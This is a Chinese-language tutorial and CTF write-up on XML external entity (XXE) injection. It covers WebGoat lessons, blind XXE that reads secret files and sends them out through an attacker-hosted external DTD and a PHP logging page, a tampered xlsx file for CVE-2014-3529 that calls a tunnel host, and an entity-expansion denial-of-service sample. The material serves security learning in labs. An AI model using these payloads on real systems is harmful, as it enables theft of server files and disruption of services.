# 环境
## WebGoat 搭建  
安装docker,使用以下命令  
```bash
docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```  


## php和Apache httpd  
httpd下载连接  
```
https://www.apachelounge.com/download/ 
```  
解压缩之后有一个叫Apache24的文件夹，如果移动到其他地方，需要自己修改配置，如果直接放在C盘，就不需要再修改配置。  
配置文件是Apache24/config/httpd.conf  
定义一个变量SRVROOT，指向安装目录，在原配置文件中使用${SRVROOT}来引用安装目录，一般修改这里就可以了  
```conf  
Define SRVROOT "c:/Apache24"
```  
这是服务器根目录  
```conf
DocumentRoot "${SRVROOT}/htdocs"
```
监听的端口，可以通过这个端口访问服务  
```conf
Listen 80
```  

在bin目录下运行httpd就可以开启服务了  

php下载连接 
```
https://www.php.net/downloads.php  
```
选择一个版本，点击Windows downloads，
  

如图，有Non Thread Safe和Thread Safe,下载Thread Safe的，解压之后放好  



打开Apache24/conf/httpd.conf文件，在合适的地方添加下面内容，文件内有很多标签，不要加在标签内部就可以了。文件路径为自己php的路径。  
```
LoadModule php_module 'C:/server/php8.4.5/php8apache2_4.dll'
PHPIniDir 'C:/server/php8.4.5'
AddType application/x-httpd-php .php
```

在Apache24/htdocs/下添加一个hello.php文件，填写下面内容  
```php
<?php

echo "hello";
```  

访问localhost/hello.php  
下面是成功的情况  
  
如果是下面的样子，可能是因为修改了配置文件之后没有重新启动服务，重启试试  
  

# XXE  
XXE（XML外部实体注入）是一种针对应用程序处理XML数据的方式的攻击。在这种攻击中，攻击者利用应用程序对XML输入的处理不当，访问敏感数据。  

## XML  
XML 是可扩展标记语言（Extensible Markup Language），是一种标签语言，用来传输和存储数据。必须使用树形结构。  
DTD用于定义XML文档的结构、元素、属性、实体等合法组成规则。这是xxe攻击的关键位置  
XML实体在DTD中被声明，用于代替内容或标记。  

## 一个XXE的简单例子  
  
要求找到根目录下的内容有什么  

先提交一个评论，抓包  
  
可以发现请求体使用xml格式，再次发送拦截，并且修改请求体为以下内容  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY root SYSTEM "file:///">
]>
<comment>
<text>&root;</text>
</comment>
```  
第一行是一个声明，这里说明了xml的版本  
xml文件可以分为两个部分，一个是dtd，一个是xml的数据部分  
- dtd  
使用下面的格式  
```xml  
<!DOCTYPE a [

]>
```  
a一般是根标签名字，也可以使用其他名字，但一般要求使用跟标签的名字  
SYSTEM声明外部实体，会将后面的字符串识别为一个资源的路径，并加载资源赋给实体的值
上述内容中，定义了一个实体root，SYSTEM将根目录下的内容返回给root，当引用root时，解析器会用用实体的值代替  

- xml数据  
一般就是一些标签，类似html，但是所有的标签都必须在根标签内部  

提交之后发现评论区出现了根目录的内容  
  


## blind xxe  

服务端可能设置一些规则，比如检查关键字或者特殊字符，将原本的数据修改或者过滤后返回，或者是已开发者原本就没有做回显信息的功能，即便成功访问到关键数据，也没有返回给攻击者  

webgoat的另一个例题，任务是找出/home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt的内容  
  

首先发个评论，抓包  

按照xxe的思路，将请求体修改为一下内容发送，评论区将显示想要的结果  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>
<text>&secret;</text>
</comment>
```
但是返回结果并不是想要的内容，这是因为服务端检查到特殊的内容后，会将原本预期的内容修改  
  

### 外带数据实现xxe攻击  

外带数据一般是将目标内容作为get请求的参数添加到url路径后面，查看请求得到url，以本题为例  

首先需要一个目标主机能访问到的服务，攻击者能查看这个服务的请求信息  
这里可以使用Apache搭建一个服务  
比如使用Apache2.4,在Apache24/htdocs下新建一个get.php文件，内容如下  
```php
<?php

echo "This is very good!","</br>";
$file = fopen("test.txt","w");
foreach ($_GET as $key => $val){
    echo $key," ",$val,"</br>";
    fwrite($file,$val);
    fwrite($file,"\n");
}

fclose($file);
```  
当目标主机访问这个页面时，get请求的参数值会保存到test.txt文件中  

建立一个kk.txt,内容如下，kk.txt的作用是实现外部引用DTD，这里需要使用外部DTD  
```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  

发评论，抓包，修改请求体如下  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
查看test.txt,保存了目标内容  
  


1. 在外部DTD中，send实体嵌套定义在int实体中，这是为了将后面的%secret;展开，如果不嵌套，而是直接用下面方式定义  
```xml
<!ENTITY % send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>
```  
那么test.txt中的内容将是字符串"%file;"  
xml解析器时只对实体的值解析，SYSTEM后面的字符串作为资源路径不被解析，嵌套后SYSTEM作为字符串不被识别为关键字，解析器将后面的实体展开  

2. 实体int通过外部DTD定义，这是由于xml解析器在解析内部实体时，对展开的内容不作二次解析，而会对外部实体展开内容再次解析，如果使用下面的方式  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
test.txt的内容不会发生变化，因为send没有被定义，没有发出请求  

3. send并不一定需要是参数实体，也可以是通用实体，用如下方式也可以得到目标内容  
kk.txt  
```xml
<!ENTITY % int "<!ENTITY send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  

请求体  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;
]>
<comment>
<text>hello&send;</text>
</comment>  
```  
参数实体和通用实体有两个明显的区别，参数实体一般只在dtd内部使用，引用时使用%，通用实体一般只在xml部分（不能在dtd内），引用时使用&


- 还有一个简单的绕过方法，构造请求体如下  

```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY file SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>  <text>aaaaa&file;</text></comment>
```  
  
因为服务端检验的逻辑是，首先判断请求体的原始数据有没有包含secret的内容，只要有就通过  
如果没有就xml解析，展开实体，但是webgoat的开发者写成secret的内容是否包含了text标签的内容，作者怀疑是开发者写错了，所以随便加点就可以绕过  
关键代码如下，完整代码的位置在WebGoat\src\main\java\org\owasp\webgoat\lessons\xxe，源码在github上可以下载  
```java  
 if (commentStr.contains(fileContentsForUser)) {
    /*
     * commentStr是请求体的原始数据，是xml格式的数据，是String类
     * fileContentsForUser是为用户生成的secret内容，也是String类
     * 如果commentStr包含secret的内容，就正确
     */
      return success(this).build();
    }
    

    try {
      /*
       * comments是一个CommentsCache类,管理评论区的内容
       * parseXml解析原始xml数据，返回评论的内容
       * false表示不启用安全模式，运行使用外部实体
       * comments解析请求体返回一个Comment类
       * 如果解析后的内容属于secret的一部分，就修改请求
       * 
       */
      Comment comment = comments.parseXml(commentStr, false);
      if (fileContentsForUser.contains(comment.getText())) {
        comment.setText("Nice try, you need to send the file to WebWolf");
      }
      comments.addComment(comment, user, false);
    } catch (Exception e) {
      return failed(this).output(e.toString()).build();
    }
```  

### 内网穿透  

如果目标主机不在本地，可以使用内网穿透等方式。  
作者使用内网穿透的方式，有很多工具可以实现，比如ngrok,Tunnelblick,cloudflared等等，作者对于这些工具了解不多，但仅从完成xxe的角度来说，作者认为cloudflared是免费，操作简单，稳定的。  
下载地址https://github.com/cloudflare/cloudflared/releases/tag/2025.2.1  
开启http服务后，使用命令  
```bash
.\cloudflared.exe tunnel --url http://localhost:80
```  
  
框框内就是新的url  

## 其他情景xxe攻击  

xml不仅可以作为请求体的结构，有些应用程序的配置文件也采用xml格式，程序会因为标签的属性或内容不同而产生不同的效果，比如webgoat的配置文件就是pom.xml,其中java.version标签指明了使用的java版本。  
excel表实质上是一个压缩包，大量使用了xml格式的文件来存储信息。解压的内容如下  
  
[Content_Types].xml是主要的配置文件，也是excel解析时触发xxe的关键文件  

###  CVE-2014-3529  

这是一个基于解析excel的漏洞  
本地环境仍然开启http服务，开启内网穿透，同样需要get.php和kk.txt,将url修改为cloudflared提供的url  
在https://yunjing.ichunqiu.com/cve/detail/1013?pay=2轻松漏洞环境  
打开时下面的样子  
  

新建一个空的xlsx文件，也就是excel表  
  
修改后缀为zip，解压  
  
打开xml文件  修改为如下内容,和原文件相比，仅仅添加了dtd部分    
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE ANY [ 
<!ENTITY % file SYSTEM "file:///flag"> 
<!ENTITY % dtd SYSTEM "https://tile-agency-dana-cartridge.trycloudflare.com/kk.txt">
%dtd; %all;%send;]>

<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```  
压缩，将压缩包后缀改为xlsx，选择该文件并上传，上传后返回保存的文件名，复制文件名，返回解析  
  
查看本地test.txt文件  
  

## xxe dos  
攻击者可以构造一个XML文档，其中包含大量递归实体或者引用非常大的外部文件，导致XML解析器在处理时消耗大量内存或CPU资源，从而拖慢甚至崩溃服务器。  
一个实体递归的例子  
```xml
<!DOCTYPE root [
  <!ENTITY a "lol">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
]>
<root>&c;</root>  
```  

# 几个XXE题目  

## BUUCTF Fake XML cookbook  
  

随便输入登录，抓包发现是xml格式，用户名出现在msg标签中  
  
  
构造请求体  

```xml
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///flag">
]>
<user>
<username>&root;</username>
<password>ddd</password>
</user>
```  



## BUUCTF True XML cookbook  
一样的界面  
